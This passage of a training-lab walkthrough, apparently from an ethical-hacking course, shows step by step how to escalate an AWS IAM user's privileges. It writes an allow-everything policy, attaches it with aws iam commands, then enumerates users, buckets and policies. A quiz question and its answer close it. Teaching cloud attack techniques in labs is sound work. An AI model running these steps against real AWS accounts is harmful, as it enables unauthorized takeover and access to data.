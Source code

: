 	8. After configuring the AWS CLI, we create a user policy and attach it to the target IAM user account to escalate the privileges.
	9. In the terminal window, type vim user-policy.json and press Enter.
This command will create a file named user-policy in the root directory.
	
	10. A command line text editor appears; press I and type the script given below:
{

TypeCopy
"Version":"2012-10-17",

"Statement": [
{

"Effect":"Allow",

"Action":"*",

"Resource":"*"

}

]
}
This is an AdministratorAccess policy that gives administrator access to the target IAM user.
Ignore the $ symbols in the script.
	11. After entering the script given in the previous step, press the Esc button. Then, type :wq! and press Enter to save the text document.
	
	12. Now, we will attach the created policy (user-policy) to the target IAM user’s account. To do so, type aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json and press Enter.
	13. The created user policy is displayed, showing various details such as PolicyName, PolicyId, and Arn.
	
	14. In the terminal, type aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy and press Enter.
	15. The above command will attach the policy (user-policy) to the target IAM user account (here, test).
	
	16. Now, type aws iam list-attached-user-policies --user-name [Target Username] and press Enter to view the attached policies of the target user (here, test).
	17. The result appears, displaying the attached policy name (user-policy), as shown in the screenshot.
	
	18. Now that you have successfully escalated the privileges of the target IAM user account, you can list all the IAM users in the AWS environment. To do so, type aws iam list-users and press Enter.
	19. The result appears, displaying the list of IAM users, as shown in the screenshot.
	
	20. Similarly, you can use various commands to obtain complete information about the AWS environment such as the list of S3 buckets, user policies, role policies, and group policies, as well as to create a new user.
	• List of S3 buckets: aws s3api list-buckets --query "Buckets[].Name"
	• User Policies: aws iam list-user-policies
	• Role Policies: aws iam list-role-policies
	• Group policies: aws iam list-group-policies
	• Create user: aws iam create-user
	21. This concludes the demonstration of escalating IAM user privileges by exploiting a misconfigured user policy.
	22. Close all open windows and document all acquired information.
Question 19.3.1.1
Escalate IAM user privileges by exploiting a misconfigured user policy. Which aws command will list all user policies?
aws iam list-user-policies

PreviousNext

From <https://labclient.labondemand.com/Instructions/63c28e91-a756-4f02-8772-09792bbc3769> 


![image](https://github.com/user-attachments/assets/58843a84-614c-4187-8a1e-a488237ae337)
